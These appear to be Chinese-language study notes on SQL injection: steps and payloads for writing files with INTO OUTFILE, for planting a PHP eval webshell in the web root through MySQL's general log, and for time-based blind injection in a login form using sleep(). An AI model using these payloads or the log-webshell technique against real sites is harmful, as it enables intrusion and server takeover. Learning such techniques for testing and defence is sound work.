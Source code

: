 #### 文件上传思路步骤：

1. 找到注入点
2. 判断列数
3. 猜测后端查询语句
  4. 判断注入类型
  5. 判断闭合符
6. 构造注入
   SELECT "123" INTO OUTFILE "c:/123.txt";
   select * from t_xx where c_xx=(('xx')) union SELECT 1,2,"123" INTO OUTFILE "c:/123.txt";%23'))

### 知识点拓展

在能够直接执行sql语句的应用中，如何通过SQL语句写日志getshell（文件上传学了之后再看）

```mysql
SHOW VARIABLES LIKE '%general%';# 查看日志配置（开关、位置）
set global general_log=on;# 开启日志
set global general_log_file='C:/phpstudy/www/methehack.php';# 设置日志位置为网站
目录
select '<?php eval($_POST["a"]); ?>'#执行生成包含木马日志的查询
```



## 表单注入

### 表单注入思路

1. 找到注入点
2. 猜测后端查询语句
   1. 猜测闭合符
3. 判断列数
4. 判断显示位
5. 查版本号
6. 查库名
7. 查表名
8. 查列名
9. 查数据

### 表单注入之延时盲注

```mysql
#假设前端登录表单的后端语句如下
select * from t_xx where username='xxx' and password='xxxx'

#需要理解的知识:
1 and 1 = 1
1 and 0 = 0
0 and 1 = 0
0 and 0 = 0
即:与运算中,全真为真、其他为假
1 or 1 = 1
1 or 0 = 1
0 or 1 = 1
0 or 0 = 0
即:或运算中，全假为假、其他为真


由以上可得：
想要注入成功，需要一个正确的username，密码后面附带or运算，保证or后面语句为真即可执行代码
注入语句构造如下：
select * from t_xx where username='xxx' and password='xxxx' or if(payload,sleep(3),1)   #'

注意：or后面的sleep()可能会有超长延时，具体延时大致是表中数据条数的倍数
```